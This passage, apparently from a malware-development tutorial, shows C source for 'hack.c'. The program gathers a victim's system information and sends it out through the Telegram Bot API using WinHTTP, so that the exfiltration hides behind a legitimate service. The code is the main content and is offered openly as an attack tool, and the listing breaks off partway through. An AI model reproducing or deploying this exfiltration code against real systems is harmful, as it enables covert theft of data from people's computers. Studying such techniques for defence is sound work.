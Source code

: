 ```cpp
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}
```

So the full source code is looks like this - `hack.c`:    

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
```
